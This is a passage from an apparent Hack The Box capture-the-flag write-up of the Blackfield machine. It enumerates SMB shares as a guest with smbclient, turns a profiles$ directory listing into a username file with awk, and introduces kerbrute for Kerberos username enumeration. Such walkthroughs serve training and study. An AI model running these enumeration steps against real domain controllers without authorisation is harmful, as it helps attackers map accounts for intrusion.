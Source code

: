 We see two non-default shares on the machine: `profiles$` and `forensic`, the later being inaccessible for the moment from our guest session. To check the files in the `profiles$` share we could use smbmap but I'll show the smbclient tool here. Again, we can specify an invalid username (if you don't specify anything with smbclient, it'll use your current Linux username). The share contains a bunch of directories for what seems to be a list of users on the domain controller.

```
snowscan@kali:~$ smbclient -U invalid //10.10.10.192/profiles\$
Enter WORKGROUP\invalid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 12:47:11 2020
  AChampken                           D        0  Wed Jun  3 12:47:11 2020
  ACheretei                           D        0  Wed Jun  3 12:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 12:47:11 2020
  [...]
```

To save that long list of users to a file we can pipe the smbclient output to awk and select only the first string from the output.

```
snowscan@kali:~/htb/blackfield_demo$ smbclient -U invalid%invalid //10.10.10.192/profiles\$ -c ls | awk '{print $1}' > users.txt
snowscan@kali:~/htb/blackfield_demo$ head users.txt
.
..
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
```

## Checking for valid users on the machine

Now that we have a list of potential usernames, we need to check if each of them is actually a real user account on the system. The fastest way to do this when we have access to the domain controller over port 88 is to use a tool like kerbrute.

> To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a PRINCIPAL UNKNOWN error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID 4768 if Kerberos logging is enabled.

